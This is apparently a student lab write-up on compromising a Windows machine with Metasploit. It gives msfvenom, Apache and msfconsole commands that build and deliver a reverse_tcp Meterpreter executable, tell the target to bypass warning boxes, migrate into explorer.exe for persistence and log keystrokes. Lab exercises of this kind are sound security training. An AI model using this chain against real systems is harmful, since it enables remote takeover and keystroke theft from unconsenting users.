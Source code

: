 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![alt text](image-3.png)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![alt text](image-4.png)
copy the fun.exe into the apache /var/www/html folder

![alt text](image-5.png)
Start apache server
sudo systemctl apache2 start

![alt text](image-6.png)

Check the status of apache2

![status](image-1.png)
Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](image-2.png)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](image-7.png)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](image-8.png)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](image-9.png)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](image-10.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](image-11.png)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](image-12.png)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
